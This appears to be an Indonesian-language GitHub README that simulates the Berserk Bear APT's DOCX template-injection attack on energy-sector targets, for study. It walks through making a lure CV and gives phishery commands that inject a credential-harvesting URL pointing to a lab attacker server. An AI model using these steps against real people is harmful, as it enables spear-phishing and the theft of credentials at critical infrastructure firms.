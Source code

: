 # Simulasi Serangan Berserk Bear APT

Ini adalah simulasi serangan oleh grup APT (Berserk Bear) yang menargetkan infrastruktur kritis dan perusahaan energi di seluruh dunia, terutama di Eropa dan Amerika Serikat. Kampanye serangan ini aktif setidaknya sejak Mei 2017. Serangan ini menargetkan penyedia infrastruktur kritis dan vendor yang mereka gunakan untuk menyediakan layanan penting. Rantai serangan dimulai dengan **kontainer XML berbahaya** yang disuntikkan ke dalam file DOCX, yang terhubung ke server eksternal melalui (SMB) dan digunakan untuk diam-diam mengambil kredensial pengguna, lalu digunakan dalam serangan spear-phishing. Saya mengandalkan laporan dari [Cisco Talos Intelligence Group](https://blog.talosintelligence.com/template-injection/) untuk memahami detailnya dan membuat simulasi ini.

![1](https://github.com/user-attachments/assets/065c0287-a730-42d3-8933-60369123cb3e)


Jika Anda ingin mengetahui lebih lanjut tentang serangan oleh grup APT Berserk Bear, lihat di sini: [ETDA Berserk Bear Card](https://apt.etda.or.th/cgi-bin/showcard.cgi?g=Berserk%20Bear%2C%20Dragonfly%202%2E0&n=1)

Serangan ini meliputi beberapa tahap, termasuk penyuntikan file DOCX dan penggunaan kontainer XML berbahaya yang memicu notifikasi untuk memperoleh kredensial yang kemudian ditransfer ke server penyerang. Kredensial ini digunakan oleh penyerang untuk mengakses data organisasi yang menjadi target serangan spear-phishing. File DOCX berupa CV ini dibuat untuk orang dengan pengalaman sepuluh tahun dalam pengembangan perangkat lunak dan sistem kontrol SCADA.

1. Buat file DOCX CV yang akan disuntikkan dan dikirim melalui spear phishing.

2. Lakukan penyuntikan pada file DOCX untuk memperoleh kredensial menggunakan alat phishery.

3. Phishing Kredensial terjadi ketika target membuka file Word dan memasukkan kredensial dalam notifikasi yang akan ditampilkan.


## Tahap Pertama (teknik pengiriman)

Penyerang menargetkan institusi yang terkait dengan energi dan sistem manajemen energi seperti SCADA. Mereka membuat file DOCX dalam bentuk CV untuk melamar pekerjaan, tampaknya ada lowongan pekerjaan terbuka untuk posisi tersebut. Penyerang mengirimkan CV yang berisi kontainer XML berbahaya. Di sini, saya membuat CV identik dengan yang digunakan dalam serangan asli.

![2](https://github.com/user-attachments/assets/c75ca289-67e6-4738-96cb-94fafec06fc9)



## Tahap Kedua (teknik implantasi)

Menurut Cisco Talos Intelligence Group, penyerang menyuntikkan file DOCX melalui alat phishery. Pada saat serangan ini, phishery merupakan alat baru, dan para penyerang memanfaatkan momen tersebut. Mungkin mereka juga melakukan beberapa modifikasi sebelum menggunakannya dalam serangan ini.

![3](https://github.com/user-attachments/assets/7876cae9-fa2b-412b-8b02-1f8a367f8403)


Phishery adalah server HTTP yang sederhana dengan SSL, dirancang untuk tujuan utama phishing kredensial melalui Otentikasi Dasar. Phishery juga memungkinkan penyuntikan URL ke dalam dokumen Word (.docx) dengan mudah.

Repository Github: https://github.com/ryhanson/phishery.git

![4](https://github.com/user-attachments/assets/a49b4a2d-e7d5-4aa2-b33a-df937c880623)


Berikut adalah perintah untuk menginstal dan menggunakan phishery:
`sudo apt-get install phishery`

`phishery -u https://192.168.138.138 -i CV.docx -o malicious.docx`

`phishery`

Sekarang, CV berbahaya akan dikirim ke target dan menunggu kredensial.

## Tahap Ketiga (teknik eksekusi)

Phishing Kredensial terjadi ketika target membuka file Word yang berbahaya dan memasukkan kredensial dalam notifikasi yang akan ditampilkan kepada mereka.



https://github.com/user-attachments/assets/ee6e44cd-c827-42eb-8d0a-02c93c01e1fb


